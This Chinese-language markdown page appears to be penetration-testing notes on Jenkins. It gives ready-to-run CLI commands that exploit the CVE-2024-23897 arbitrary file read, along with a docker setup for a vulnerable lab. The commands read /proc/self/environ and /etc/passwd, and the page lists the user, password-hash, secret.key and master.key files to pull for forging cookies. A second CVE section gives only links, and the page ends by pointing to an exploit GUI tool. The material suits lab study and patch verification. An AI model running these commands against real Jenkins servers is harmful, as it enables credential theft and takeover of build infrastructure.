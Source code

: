 # Jenkins

**Jenkins** 是一个开源的自动化服务器，广泛应用于持续集成（CI）和持续交付（CD）中。它通过自动化软件的构建、测试和部署过程，帮助开发团队提高开发效率和软件质量。Jenkins 拥有丰富的插件生态系统，支持与多种工具（如 Git、Maven 和 Docker）集成，并提供直观的 Web 界面供用户配置构建流程。其分布式构建能力使得多个节点可以并行执行任务，从而提升构建效率。Jenkins 是现代软件开发中不可或缺的重要工具。

## Jenkins任意文件读取漏洞 (CVE-2024-23897，QVD-2024-3674)

Jenkins 使用 **args4j** 来解析命令行输入，并支持通过 HTTP、WebSocket 等协议远程传入命令行参数。在 args4j 中，用户可以通过 `@` 字符加载任意文件，这使得攻击者能够利用该特性读取服务器上的任意文件。
受影响版本：`Jenkins <= 2.441`、`Jenkins LTS <= 2.426.2`

### 漏洞环境

```bash
docker run --rm -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.441-jdk17
```

### 漏洞利用

使用官方提供的 CLI 客户端，访问`http://localhost:8080/jnlpJars/jenkins-cli.jar`

```bash
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

- 读取 `$JENKINS_HOME/users/users.xml` 文件以获取在 Jenkins 服务器上拥有账户的用户列表；

- 读取每个 `$JENKINS_HOME/users/*.xml` 文件以提取用户信息，如：用户名、用户种子、时间戳和密码哈希；

- 读取用于 cookie 签名的必要文件：
  - `$JENKINS_HOME/secret.key`
  - `$JENKINS_HOME/secrets/master.key`
  - `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

匿名情况下，只能通过命令行的报错读取文件的第一行。如果开启了“匿名用户可读”选项，可以直接使用 `connect-node` 命令读取完整文件内容：

`http://127.0.0.1:8080/manage/configureSecurity/`

```bash
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

### 参考资料

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
- <https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins>
- <https://www.hackthebox.com/blog/cve-2024-23897>
- <https://www.leavesongs.com/PENETRATION/jenkins-cve-2024-23897.html>

## Jenkins Remoting 远程代码执行漏洞（CVE-2024-43044）

### 参考资料

- <https://forum.butian.net/article/559>
- <https://blog.convisoappsec.com/en/analysis-of-cve-2024-43044/>
- <https://github.com/convisolabs/CVE-2024-43044-jenkins>

![jenkins-script](../images/jenkins-script.png)

## 综合利用工具

### [JenkinsExploit-GUI](https://github.com/TheBeastofwar/JenkinsExploit-GUI)

## 参考资料

- <https://github.com/TheBeastofwar/JenkinsExploit-GUI>
